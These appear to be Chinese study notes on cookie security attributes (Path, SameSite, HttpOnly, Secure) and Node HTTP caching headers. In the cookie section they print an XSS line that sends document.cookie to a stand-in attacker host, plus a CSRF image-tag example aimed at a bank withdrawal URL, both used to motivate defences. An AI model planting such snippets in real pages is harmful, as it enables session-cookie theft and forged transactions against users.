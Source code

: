 domain + path: 可以发送给哪些服务端的 url

www.jqb.com/mobile

```js
Path=/a
```

- /a
- /a/b
- /a/b/c

2. SameSite

设置 SameSite 后，Cookie 允许服务器要求某个 cookie 在跨站点时不发送

```js
Set-Cookie: k=v; SameSite=Strict // jqb.com（更安全）
```

- none：jqb.com nick.com 在相同的站点，或者跨站点都可以发送 cookie
- Strict：在访问相同站点时发送 cookie
- Lax：nick.com 点链接 -> jqb.com

3. 如何提升 Cookie 的安全性

- 不让 JS 操作 Cookie：HttpOnly
- 非 HTTP 链接操作：Secure
- 涉及敏感信息，Cookie 有效期短 会话期有效 不设置 max-age expires 同时设置 Samesite

- XSS：

```js
new Image().src='http://evi-domain.com/steal-cookie?cookie='+document.cookie   httponly
```

- CSRF：

```js
<img src="http://bank.com/withdraw?account=jqb&amount=100000">

Samesite: Lax
```

1. 设置 Samesite: Strict
2. 二次确认
3. 保证 Cookie 在当前会话期有效：

## Node 缓存

1. 为了提升页面的打开效率
2. 可以减少服务器的负载

缓存：强制缓存 & 协商缓存（对比缓存）

两者区别：在于缓存数据要不要与服务器发生交互

### 强制缓存

1. Expires: HTTP/1.0 表示缓存的到期时间 取决于客户端时间
2. Cache-Control: HTTP/1.1 最大有效时间 + 第一次请求缓存时间 (单位是秒)
